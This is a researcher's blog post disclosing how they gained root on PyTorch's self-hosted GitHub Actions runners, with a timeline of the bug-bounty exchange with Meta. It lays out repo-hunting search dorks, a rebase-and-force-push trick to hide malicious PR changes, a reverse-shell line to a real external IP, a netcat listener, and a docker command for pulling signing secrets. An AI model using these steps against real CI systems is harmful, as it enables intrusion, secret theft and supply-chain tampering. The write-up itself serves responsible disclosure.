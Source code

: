 ```yaml
---
title: Zuckerpunch - Abusing self hosted github runners at Facebook
author: myoung
layout: post
comments: true
permalink: /post/zuckerpunch
seo_follow:
  - 'false'
seo_noindex:
  - 'false'
categories:
  - hacking
  - meta
  - pytorch
  - github
  - ci
tags:
  - hacking
  - meta
  - pytorch
  - github
  - ci
---
```


I abused Github Actions to get full root into the PyTorch ci runners. <!-- more -->

<br/>
<br/>
### Timeline ###

 * `4/18` Initial research/exploit with an automated case response.
 * `4/20` First human response to forward to the pytorch team.
 * `4/27` I reached out to follow up.
 * `5/11` Meta responds that there is no update.
 * `6/9` I reach out again to ask about bounty terms and push for a >6 week response.
 * `6/22` Meta responds: `Unfortunately after discussing this with the product team this isn't an issue we're going to fix or reward, although code execution is possible on these machines its by design and additionally the product team has mentioned that the actions are spun up on short lived nodes (similarly to how github operates their own action runners) which limits the impact further.`
 * `6/24` I respond with multiple follow ups explaining (and again exploiting further) the scope and severity including secrets exfiltration and prove lateral movement abilities. I exploit it further and PyTorch notices and bans my user. I set up a zoom call to talk.
 * `6/27` Call goes well, team is respectful and insightful, discuss remediation, things affected and scope.
 * `6/30 - 7/22` I use favors to get in contact with the team after another month of no responses. 
 * `7/22` - Meta responds 'We're still in discussion with the product team' and refuses further discussion about impact and bounty
 * `8/16` - Another follow up sent with no responses.
 * `8/19` - After more favors I'm able to escalate it to a new security engineer at meta that provides an extremely long and helpful response
 * `8/22 - 8/24` - Back and forth about scope and impact
 * `8/24` Resolved and $10,000 bounty paid out with a 7.5% bonus due to timeline

<br/>
<br/>

### The Gritty ###

I run a somewhat successful open source [github action runner project](https://github.com/myoung34/docker-github-actions-runner)

Github provides CI runners but they have some nuances around configuration and ability. You can run your own, however, if you have special needs such as hardware requirements, security policies, etc.

There's a lot of [information](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#hardening-for-self-hosted-runners) around the hardening of these that indicate that [running them on public repos is a bad idea](https://docs.github.com/en/actions/hosting-your-own-runners/about-self-hosted-runners#self-hosted-runner-security). 

That said: if you need to you still can but you should be mindful of a few settings.

The most important setting is what I decided to go after.

{% img /images/gha.png %}

That first checkbox isn't the default, but if you're not careful it seems safer than it is. What it means is that if you're not a new user, you can submit changes to the CI yaml and itll affect what's run in the PR. So that's what I did.

I spent an hour or so using carefully crafted google search like `site:github.com inurl:workflows +"self-hosted"` and pulled up around maybe 30  or so candidates.

The issue is that there's no way to know if they have this checkbox until you open a PR and you potentially notify people of what you're doing.

Throughout these pull-requests I was able to further abuse a github UI bug that let's me "hide my commit" and it appears as though I merged my PR. It's confusing and weird but it removes the ability for them to see what I was doing.


{% img /images/gha1.png %}

What I did here was:

* Fork the repo.
* Make a change to github actions workflows that appear to have self hosted runners looking for jobs (making sure to keep `runs-on: self-hosted`) with something like: `run: echo "Testing refactor"`.
* Push the commit with a boring message like "Refactoring".
* Immediately do `git rebase -i HEAD^`. This is the key part. This basically resets my branch to the default branches SHA. Meaning there's no difference at all in tree history between the default branch (that I targeted for a PR) and the current branch/PR now.
* `git push origin {branch_name} -f`

The bug above is simply that the github UI now sees no changes to the branch (0 files changed). And since the SHA exists as the HEAD SHA on the default branch: it looks merged. Now there's no way to see what I did. The emails from git only show a link to the PR with some metadata that a file changed, but not what. If someone had an integration it would have had to be able to pull the diff from my SHA to theirs _immediately_. Because I force pushed it's no longer in existence in my fork so it's gone forever and after a few seconds there's no way to pull what my change showed.

The best part is: it already kicked off a potential github actions run though.

So here one of two things happens:

* It runs and you'll know because you'd see `echo "Testing refactor"`
* It doesn't run because they had the checkboxes set correctly and you'd see this:


{% img /images/gha2.png %}


Now it's late at night, I've sumbitted and undone roughly 30 PR's until I get a hit.

PyTorch.

This repo has a *ton* of yml in all shapes and fashion. And it makes sense to use self-hosted because of all the specialized hardware to run GPU acceleration.

I basically had full reign to any of these now that I can submit any change to CI.

The question is only: is there monitoring in place? Honestly this isn't common because CI is just all over the place. Tests change, infra is all over the place with requirements changing in dependencies, etc.

So I decided to shell in with a reverse shell. A reverse shell means I'm going to make it connect to something I have so that I can get into it as opposed to me going into it directly. Same result, but backwards. To do that I spun up a small digital ocean box and set up a reverse shell listener with `nc -u -lvp 9001`

On CI I issued a pull-request with 
<br/>
`run: sh -i 5<> /dev/tcp/143.110.155.178/9001 0<&5 1>&5 2>&5`

On my digital ocean box: I'm now connected to the machine.

From here I noticed 2 things:

 * Some of these instances are ephemeral AWS instances that have root by default and a file with plaintex IAM user keys for circleci
 * Some of these intances were less ephemeral Jenkins instances that didnt run as root but allowed sudo.

Basically they wouldn't live forever but I had root on both.

My first attempt was to exfiltrate CI secrets but this didn't quite work because forks cant exfiltrate secrets via the actions yaml (theyre not in the forked repo). I was able to prove, however, that a few things such as Android builders ran via docker and would land on these instances with the secrets nightly + on-demand. I can't force that to happen but I would be able to exfiltrate the signing key once the docker container was running with `docker inspect {container id} | jq '.[].Config.Env[0]'`

Next: AWS abuse. I wasn't able to find out directly but these instances had access to many s3 buckets. They likely had write access to some meaning I could plant files but that's boring. What they did have though was ECR image support. Without ECR Immutable tags on (confirmed) I would be able to rebuild any image for use by downstream internal projects. Meaning that if downstreams werent locking images to their build SHA's (most dont on latest or semver tags in general) I could implant anything into these containers and re-push them so that downstream projects would pull them. The effect of this at this time is unknown as this isnt the pytorch distributable, but the hope would have been that I could supply-chain internally. This scope stays "tbd".

It also didn't appear that these run in a VPC meaning that unless security software is installed there's nothing to prevent me from doing boring malicious stuff like mine crypto, blast emails, etc. If it were in a VPC I'd still have this possibility but things like GuardDuty (if enabled) would catch me doing things and flag it as irregular activity. Not worth it here and a good way to violate reasonable disclosure.

The IAM access (both from the role attached to the instance) and the IAM user were overprovisioned and also contributed to the bounty. The PyTorch team is futher lowering the permissions here to only necessary as well as (I'm assuming) bucket policies to match.
